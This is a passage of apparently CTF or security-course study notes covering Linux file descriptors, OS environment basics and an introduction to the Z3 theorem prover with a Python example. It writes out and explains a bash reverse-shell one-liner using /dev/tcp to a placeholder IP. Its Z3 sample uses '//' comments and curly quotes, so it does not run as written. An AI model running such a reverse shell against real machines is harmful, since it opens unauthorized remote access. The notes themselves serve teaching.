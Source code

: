 This makes it very nice for basic tools  (ex: `find`, `grep`, `awk`) to find what you need
* Or to do bad things:
	ex: `bash -i >& /dev/tcp/1.3.3.7/80 0>&1`
		Create a bash process
		Redirect everything into "file"
			File is actually a socket somewhere else
		Gets the machine to open a bash session connected back to your machine
#### Operations after `open()`
* `open` returns a file descriptor (fd)
	* fd is just a number used to identify a file
* Can see a process's file descriptors here: `/proc/self/fd`
* Standard ones:
	`0`: stdin
	`1`: stdout
	`2`: stderr
* 3 main operations on files
	`read`
	`write`
	`close`
## OS Environment Info
Having an understanding of OS environment does help to structure an attack using weaknesses in memory or OS library functions.
### Cheat Sheets
* [CTF101 - GDB](https://ctf101.org/reverse-engineering/what-is-gdb/)

# Theorem Proving
## Overview
* Complex programs often have to be replicated for brute-forcing (i.e., recurse)
* There IS a better way™
Theorem Proving can help solve complex problems with “simple” input
	General concept: given a set of constraints, a theorem prover will find a solution to satisfy all of them
		Or tell you it’s not satisfiable
Most common theorem prover: z3
## Z3 Types
Z3 supports many types
Most common
* Ints (of an arbitrary size)
* BitVecs: Ints of a specific bit length
* Bools
* Solver Class (how we check for output from the engine)
## Example 1:
```python
from z3 import Ints, Solver
// Create ints
a, b = Ints(‘a b’)
// Define solver
s = Solver()
// Define constraints
s.add(a + b == 1234)
s.add(a - b == 500)
print(s.check())
print(s.model())
```
Defining Constraints
`a + b` must equal `1234`
`a - b` must equal `500`